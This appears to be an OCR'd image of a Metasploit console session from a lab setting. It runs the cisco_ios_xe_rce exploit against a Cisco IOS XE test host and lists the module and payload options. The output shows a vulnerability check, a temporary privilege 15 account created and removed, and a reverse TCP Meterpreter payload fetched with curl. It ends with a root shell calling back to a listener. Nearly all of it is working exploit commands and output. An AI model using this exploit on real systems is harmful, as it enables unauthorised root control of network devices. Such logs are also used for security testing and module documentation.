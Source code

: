 ```
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.113   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              443              yes       The target port (TCP)
   SSL                true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                               no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE    false            yes       Attempt to delete the binary after execution
   FETCH_FILELESS  false            yes       Attempt to run payload without touching disk, Linux ≥3.17 only
   FETCH_SRVHOST                    no        Local IP to use for serving payload
   FETCH_SRVPORT   8080             yes       Local port to use for serving payload
   FETCH_URIPATH                    no        Local URI to use for serving payload
   LHOST           eth0             yes       The listen address (an interface may be specified)
   LPORT           4444             yes       The listen port


   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      vsLOEPPqU        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/cisco_ios_xe_rce) > check
[+] 192.168.86.113:443 - The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
[*] Created privilege 15 user 'vTakCDWG' with password 'RJQHKnKK'
[*] Removing user 'vTakCDWG'
[*] Sending stage (3045380 bytes) to 192.168.86.113
[*] Meterpreter session 5 opened (192.168.86.122:4444 -> 192.168.86.113:56702) at 2025-03-03 20:31:39 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : testc100v
OS           :  (Linux 4.19.106)
Architecture : x64
```
